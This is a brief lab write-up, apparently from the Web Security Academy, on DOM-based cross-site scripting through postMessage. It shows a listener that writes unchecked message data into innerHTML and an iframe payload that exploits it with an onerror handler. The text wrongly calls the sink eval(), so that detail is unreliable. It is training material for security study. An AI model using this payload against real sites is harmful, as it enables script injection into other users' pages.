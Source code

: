 Consider that a web page contains addEventListener() in the source:
```
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```

As the event listener does not verify the origin of the message, and the postMessage() method specifies the targetOrigin "*", the event listener accepts the payload and passes it into a sink, in this case, the eval() function.

We can exploit this by sending the below javascript via post message to the server

<iframe src="https://ac5f1f471f6efd53c0331224005500d8.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
